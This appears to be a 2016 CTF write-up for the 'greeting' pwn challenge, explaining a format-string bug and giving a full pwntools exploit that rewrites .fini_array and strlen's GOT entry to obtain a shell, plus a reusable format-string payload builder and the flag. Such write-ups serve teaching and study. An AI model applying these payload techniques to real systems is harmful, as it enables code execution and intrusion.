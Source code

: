```yaml
---
title: MMA 2nd CTF 2016 -- greeting
comments: true
permalink: "/:title/"
tags:
- MMA
- CTF
- format_string
- Python
- Pwnable
categories:
- write-ups
date: '2016-09-12 15:49:00 +0000'
---
```


**Category:** pwn  
**Points:** 150  

<!-- more -->  
  
After a long period of time without playing any CTF, I finally finished my master's degree and have time to enjoy some CTF challenges. And then there is the **Tokyo Western/MMA 2nd CTF**, the first CTF I played in 2016.  
  
The challenge gave us a 32 bit ELF. The program will first use `system` to echo some message, then it will ask us to input our name, and print the greeting message. We can see that there exist a format string vulnerability in the main function:  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int result; // eax@2
    int v4; // edx@4
    int v5; // [sp+1Ch] [bp-84h]@2
    int v6; // [sp+5Ch] [bp-44h]@1
    int v7; // [sp+9Ch] [bp-4h]@1

    v7 = *MK_FP(__GS__, 20);
    printf("Please tell me your name... ");
    if ( getnline((char *)&v6, 64) )
    {
        sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
        result = printf((const char *)&v5); // <-- format string 
    }
    else
    {
        result = puts("Don't ignore me ;( ");
    }
    v4 = *MK_FP(__GS__, 20) ^ v7;
    return result;
}
```

As we can see that the program ends directly after it print out the greeting message, so it's kind of hard for us to do the GOT hijacking attack. After discussing with my teammate, we found that there's one more place we can overwrite the function pointer: **the `.fini_array` section**.  
  
So, we can first overwrite the **first entry** of the `.fini_array` section and hijack the control flow. Notice that we can only input 64 bytes characters, and that's kind of hard for us to write both `system`'s address and `sh`'s string into the memory buffer. Here's what we can do :  
  
* Overwrite both `.fini_array` section and `strlen`'s GOT entry. We replace the first entry of the `.fini_array` section into **main function's address**, while `strlen`'s GOT entry be changed into `system`'s PLT.  
* The program will then return to the main function. Since `strlen`'s GOT has already been changed into `system`'s address, we can then input `sh` and execute `system("sh")` during the `getnline` function (the function will call `strlen` on our input).  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "pwn2.chal.ctf.westerns.tokyo"
PORT = 16317
ELF_PATH = "./greeting"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def fmtstr(payload, prints, index, data, byte=1):
    """
    data: data that want to be written into the address
    index: stack position (ex. %7$n --> index = 7)
    prints: total charaters that have been print out
    payload: whole payload string, initial value are addresses

    ex.  payload = p32(addr) + p32(addr2) + p32(addr3)
         prints = 12
         payload, prints = fmtstr(payload, prints, 7, 0xa0a0, 2)
         payload, prints = fmtstr(payload, prints, 8, 0xc0, 1)
         payload, prints = fmtstr(payload, prints, 9, 0x08047654, 4)
    """

    if data - prints > 0:
        num = data - prints
    else:
        num = data + 256**byte - prints
        while(num <= 0):
            num += 256**byte
    
    payload += "%" + str(num) + "c" 
    prints = data

    if byte == 1:
        payload += "%" + str(index) + "$hhn"
    elif byte == 2:
        payload += "%" + str(index) + "$hn"
    elif byte == 4:
        payload += "%" + str(index) + "$n"
    elif byte == 8:
        payload += "%" + str(index) + "$lln"

    return payload, prints

def fmtstr_scan(cnt):
    return '.'.join( "%"+str(i)+"$p" for i in xrange(1,cnt+1))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    payload = "AA"+p32(0x08049934) + p32(elf.got['strlen']) + p32(elf.got['strlen']+2) 
    prints = len(payload) + 18
    payload, prints = fmtstr(payload, prints, 12, 0x85ed, 2)
    payload, prints = fmtstr(payload, prints, 13, 0x8490, 2)
    payload, prints = fmtstr(payload, prints, 14, 0x0804, 2)
    print payload
    print len(payload)

    r.sendlineafter("... ", payload)
    r.sendlineafter("... ", "sh\x00")

    r.interactive()
```
  
flag: `TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}`
